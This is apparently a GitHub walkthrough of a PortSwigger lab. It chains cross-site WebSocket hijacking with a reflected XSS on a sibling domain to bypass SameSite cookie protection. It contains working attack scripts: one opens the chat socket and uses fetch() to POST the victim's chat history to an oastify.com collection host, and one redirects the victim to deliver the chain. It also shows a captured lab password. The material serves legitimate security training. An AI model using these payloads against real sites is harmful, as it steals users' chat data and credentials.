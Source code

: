 ![image](https://github.com/udayk01/Web-Security/assets/52235763/b1b22d55-7cdb-444f-be77-b5e37aa57a14)

## Solution:

### Study the live chat feature
> In Burp's browser, go to the live chat feature and send a few messages.

![image](https://github.com/udayk01/Web-Security/assets/52235763/22d50b5b-2bb7-4719-992a-cbba596ce084)

> In Burp, go to the Proxy > HTTP history tab and find the WebSocket handshake request. This should be the most recent GET /chat request.

![image](https://github.com/udayk01/Web-Security/assets/52235763/6305e62b-512b-4abd-ab6c-8580080c07ab)

>> Notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSWSH if you can bypass any SameSite cookie restrictions.

> In the browser, refresh the live chat page.

![image](https://github.com/udayk01/Web-Security/assets/52235763/b319ea8d-368d-4b69-ad56-c1a10956f3e6)

> In Burp, go to the Proxy > WebSockets history tab. Notice that when you refresh the page, the browser sends a READY message to the server. This causes the server to respond with the entire chat history.

![image](https://github.com/udayk01/Web-Security/assets/52235763/60e59306-5217-4fc0-bfcf-277e17c4ce74)

### Confirm the CSWSH vulnerability

> In Burp, go to the Collaborator tab and click Copy to clipboard. A new Collaborator payload is saved to your clipboard.

```9jtzanx4rq7424h7abws5i6a51bszin7.oastify.com```

> In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept:
```
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/a6c3f16d-e545-4138-9ef1-ada247f76513)

> Store and view the exploit yourself

![image](https://github.com/udayk01/Web-Security/assets/52235763/e7948284-78cd-4167-85c0-8b072b149bcd)

> In Burp, go back to the Collaborator tab and click Poll now. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.

![image](https://github.com/udayk01/Web-Security/assets/52235763/40ac2edd-a7ee-4968-beb3-46a3f95d235e)

>> Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand new session, which isn't particularly useful.

> Go to the Proxy > HTTP history tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent GET /chat request.

![image](https://github.com/udayk01/Web-Security/assets/52235763/dda53801-1eeb-402a-8a0d-c2e77dc2e7f3)

>> Notice that your session cookie was not sent with the request.

> In the response, notice that the website explicitly specifies SameSite=Strict when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

![image](https://github.com/udayk01/Web-Security/assets/52235763/c38ab2d3-d2f2-4f00-a97a-0c28101afabe)

### Identify an additional vulnerability in the same "site"

> In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an Access-Control-Allow-Origin header, which reveals a sibling domain at cms-YOUR-LAB-ID.web-security-academy.net.

![image](https://github.com/udayk01/Web-Security/assets/52235763/585cbf0a-3a77-4ded-8414-9e2d33f0add0)

> In the browser, visit this new URL to discover an additional login form.

![Screenshot 2024-04-19 222243](https://github.com/udayk01/Web-Security/assets/52235763/35ecc419-cae4-44a7-942e-dcf9439e892d)

> Submit some arbitrary login credentials and observe that the username is reflected in the response in the Invalid username message.

![image](https://github.com/udayk01/Web-Security/assets/52235763/f41ae08b-c907-4377-872a-39c10c733151)

> Try injecting an XSS payload via the username parameter, for example:

```<script>alert(1)</script>```

![image](https://github.com/udayk01/Web-Security/assets/52235763/5fca8bbc-76a2-4463-8d17-6234fd9e4be5)

![image](https://github.com/udayk01/Web-Security/assets/52235763/a4da814e-39e8-447a-b551-3871580d7cd4)

>> Observe that the alert(1) is called, confirming that this is a viable reflected XSS vector.

> Send the POST /login request containing the XSS payload to Burp Repeater.

![image](https://github.com/udayk01/Web-Security/assets/52235763/54c416d2-2344-49cc-b1bc-599d541fd125)

> In Burp Repeater, right-click on the request and select Change request method to convert the method to GET. Confirm that it still receives the same response.

![image](https://github.com/udayk01/Web-Security/assets/52235763/b9f717f8-e4e8-4be6-9531-f22bf90fcabd)

> Right-click on the request again and select Copy URL. Visit this URL in the browser and confirm that you can still trigger the XSS. As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions.

![Screenshot 2024-04-19 222744](https://github.com/udayk01/Web-Security/assets/52235763/6dbec21a-8328-498e-8d44-0fe4d3cd4ca3)

### Bypass the SameSite restrictions

> Recreate the CSWSH script that you tested on the exploit server earlier.
```
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/b385951f-eef2-403e-bea6-17dcae6ac2a1)

> URL encode the entire script.

![image](https://github.com/udayk01/Web-Security/assets/52235763/45b057e8-2701-4bb4-9f19-1b6660fc2963)

> Go back to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested, but use the URL-encoded CSWSH payload as the username parameter. The following is one possible approach:
```
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/2039942a-16da-45f2-a548-008c28ac2d2c)

> Store and view the exploit yourself.

![image](https://github.com/udayk01/Web-Security/assets/52235763/35e2481b-0578-4c0a-9780-53deec7c8097)

> In Burp, go back to the Collaborator tab and click Poll now. Observe that you've received a number of new interactions, which contain your entire chat history.

![image](https://github.com/udayk01/Web-Security/assets/52235763/1180f719-0144-4385-aacd-51a4f458d26d)

> Go to the Proxy > HTTP history tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent GET /chat request.

![image](https://github.com/udayk01/Web-Security/assets/52235763/049b0256-3977-42e4-b37d-73884ebc6a77)

>> Confirm that this request does contain your session cookie. As it was initiated from the vulnerable sibling domain, the browser considers this a same-site request.

### Deliver the exploit chain

> Go back to the exploit server and deliver the exploit to the victim.

![image](https://github.com/udayk01/Web-Security/assets/52235763/b8f37b7d-90a1-438d-bebe-b9f248dcf67a)

> In Burp, go back to the Collaborator tab and click Poll now.

![image](https://github.com/udayk01/Web-Security/assets/52235763/8e8f8fd6-5946-4f42-a36f-1aa8fbc85dc8)

>> Observe that you've received a number of new interactions.

>> Study the HTTP interactions and notice that these contain the victim's chat history.

>> Find a message containing the victim's username and password.

![image](https://github.com/udayk01/Web-Security/assets/52235763/5ecf1f25-78bf-4750-9ec5-2f93d2481c49)

password: u9ljma0qv73l4p9gydo6

> Use the newly obtained credentials to log in to the victim's account and the lab is solved.

![Screenshot 2024-04-19 224931](https://github.com/udayk01/Web-Security/assets/52235763/e5d32650-c07f-4349-9247-52d5829643cf)
